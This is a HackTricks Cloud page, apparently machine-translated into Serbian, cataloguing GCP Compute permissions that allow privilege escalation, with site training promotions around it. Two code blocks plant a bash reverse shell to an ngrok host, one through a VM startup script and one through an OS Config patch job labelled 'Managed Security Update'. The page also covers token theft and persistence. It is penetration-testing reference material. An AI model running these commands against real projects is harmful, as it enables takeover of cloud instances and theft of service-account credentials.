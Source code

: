 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (mreži) u GCP proverite:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Napomena da za izvođenje svih napada na eskalaciju privilegija koji zahtevaju modifikaciju metapodataka instance (kao što je dodavanje novih korisnika i SSH ključeva) **potrebno je da imate `actAs` dozvole nad SA koja je povezana sa instancom**, čak i ako je SA već povezana!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **modifikovati** informacije o **metapodacima** **instance** i promeniti **ovlašćene ključeve korisnika**, ili **napraviti** **novog korisnika sa sudo** dozvolama. Stoga, moći ćete da se prijavite putem SSH u bilo koju VM instancu i ukradete GCP servisni nalog sa kojim instanca radi.\
Ograničenja:

* Napomena da GCP servisni nalozi koji rade u VM instancama po defaultu imaju **veoma ograničen opseg**
* Moraćete da budete **u mogućnosti da kontaktirate SSH** server da biste se prijavili

Za više informacija o tome kako iskoristiti ovu dozvolu proverite:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvesti ovaj napad dodavanjem novog startup-skripta i ponovnim pokretanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ova dozvola daje **iste privilegije kao prethodna dozvola** ali za specifične instance umesto za ceo projekat. **Iste eksploatacije i ograničenja kao za prethodni deo se primenjuju**.

### `compute.instances.setIamPolicy`

Ova vrsta dozvole će vam omogućiti da **dodelite sebi ulogu sa prethodnim dozvolama** i eskalirate privilegije zloupotrebom istih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Nećete imati root privilegije unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA vezanom za VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Imaćete **root privilegije** unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA vezanom za VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **napraviti virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisa pristupajući metapodacima kako bi se eskalirale privilegije.

Eksploatacijski skript za ovu metodu može se naći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate dozvole **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** možete kreirati [**patch job ili deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i dobijete izvršenje koda na svim instancama za obradu unutar projekta.

Napomena da trenutno **ne trebate `actAs` dozvolu** nad SA vezanom za instancu.

Ako želite ručno da iskoristite ovo, potrebno je da kreirate ili [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ili** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Za patch job pokrenite:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Da biste implementirali ispravku:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) se u prošlosti mogao koristiti za iskorišćavanje ove pogrešne konfiguracije (ali sada ne radi).

**Napadač takođe može zloupotrebiti ovo za postizanje trajnosti.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatne dozvole** za računarsku sliku.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatne dozvole** za snimak diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatne dozvole** za disk.

### Obilaženje pristupnih opsega

Prateći ovu vezu, pronaći ćete neke [**ideje za pokušaj obilaženja pristupnih opsega**](../).

### Lokalno eskaliranje privilegija u GCP Compute instanci

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
